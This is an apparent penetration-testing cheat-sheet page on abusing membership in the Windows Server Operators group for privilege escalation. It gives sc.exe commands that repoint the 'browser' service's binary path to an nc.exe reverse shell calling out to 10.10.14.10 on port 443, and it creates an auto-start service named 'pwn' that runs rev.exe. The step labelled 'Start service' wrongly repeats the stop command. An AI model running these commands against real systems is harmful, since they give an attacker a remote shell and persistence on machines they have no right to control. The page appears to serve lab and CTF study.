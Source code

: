 ```yaml
---
title: "Server Operators"
date: 2024-7-13
tags: ["server operators", "active driectory", "ad", "Windows", "privesc", "service"]
---
```


---
### Abuse #1: Change service path

<div>

```bash
# Change a service path (e.g. browser)
sc.exe config browser binPath= "C:\ProgramData\nc.exe -e cmd.exe 10.10.14.10 443"
```

```bash
# Stop service
sc.exe stop browser
```

```bash
# Start service
sc.exe stop browser
```

</div>

### Additional: Create service

<div>

```bash
# Create a service
sc.exe create pwn binpath= C:\ProgramData\rev.exe start= auto
```

</div>

<br>